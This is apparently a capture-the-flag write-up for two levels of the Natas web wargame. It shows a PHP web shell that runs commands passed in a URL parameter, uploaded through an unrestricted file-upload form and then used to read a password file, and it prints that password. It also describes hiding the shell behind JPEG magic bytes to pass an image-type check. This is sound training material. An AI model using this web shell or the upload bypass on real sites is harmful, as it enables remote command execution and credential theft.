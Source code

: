 - let's try upload a simple php file
- content of our `shell.php` look like this

```php
<?php
echo phpinfo();
?>
```

- we noticed that our upload process is successfull and we get the `.php` extension in our response.

```html
The file <a href="upload/ekf1gg6bsz.php">upload/ekf1gg6bsz.php</a> has been
uploaded
```

- clicking on that show us a phpinfo page.
- now it's time to create a simple PHP shell.

```php
<?php
    if(isset($_GET['cmd'])){
        system($_GET['cmd']);
    }
?>
```

- after we upload it, navigate to our file and add the `?cmd=pwd` query.
- we noticed that we got shell execution and able to run `pwd` command.
- now just cat the password file in `/etc/natas_webpass/natas13`
- we got the password

```
jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
```

## NATAS13

- this one is almost the same as previous one.
- the diffrerent is, it perform check for the file type using `exif_imagetype()`.

```php
//if our file is image it return value, else it return false
// !false == true;
 else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
 }
```

- based on php official docs,
  > exif_imagetype() reads the first bytes of an image and checks its signature.
- maybe one way to bypass this is to change the first bytes of our php file into image magic number.
- from quick google we know that `jpeg` magic number is `FF D8 FF E0`
- so we simply append this hex as binary into the beginning of shell2.php
